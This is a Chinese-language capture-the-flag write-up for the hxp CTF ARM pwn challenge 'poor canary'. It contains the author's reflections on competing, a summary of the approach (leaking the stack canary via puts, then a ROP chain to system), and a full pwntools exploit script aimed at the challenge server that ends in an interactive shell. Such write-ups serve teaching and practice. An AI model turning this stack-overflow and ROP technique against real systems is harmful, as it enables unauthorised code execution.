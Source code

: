# hxpCTF
## 总结反思
> 这次终于做出来了一道题，总结一下，和前面几次相比心态上还是有一些变化的。之前比赛的时候每次都很着急，总去看计分板和倒计时，一直处于担心自己什么也做不出来的情况，结果就真的什么都没做出来。可能是前面几次都经受了挫折，到这次心态就锻炼出来了，全程都是抱着做不出来就做不出来的心态在做，对结果没有报太大的期望，学到一点是一点。所以面对之前从没有接触过的arm架构的题也能够耐心去看，搭建环境，一步步解决问题，最后getshell的时候也真的非常激动，比做oj要开心好多！   
> 另外高兴过后还是要清醒地认识到自己的不足。知识过于海量，只能持续不断地慢慢学习，加油！

## Writeup
### poor canary
> 首先需要在本地搭建arm环境，安装qemu，使用gdb-multiarch调试。为使用pwntools输入不可见字符，可以在用socat在本地部署题目，然后gdb指定arch指定target跟进去调试。    
> 题目本身并不复杂，覆盖canary的0字节，然后puts泄露剩余字节，利用栈溢出补到对应位置，再找到gadget用rop劫持控制流。传参方式和指令集稍有不同。    

> 脚本如下：

    from pwn import*
	context(log_level="debug")
	#p=process('./test')
	p = remote('116.203.30.62',18113)
	#p=remote('127.0.0.1',10007)
	p.recvuntil('> ')

	p.send('a'*40+'B')
	p.recvuntil('B')
	canary=u32("\x00"+p.recv(3))
	log.info(canary)
	bina=0x71eb0
	sys=0x16d90
	r0=0x26b7c
	p.sendline("a"*40+p32(canary)+'a'*12+p32(r0)+p32(bina)+'a'*4+p32(sys))
	
	p.recvuntil('> ')
	p.send('\n')  
	    
	p.interactive()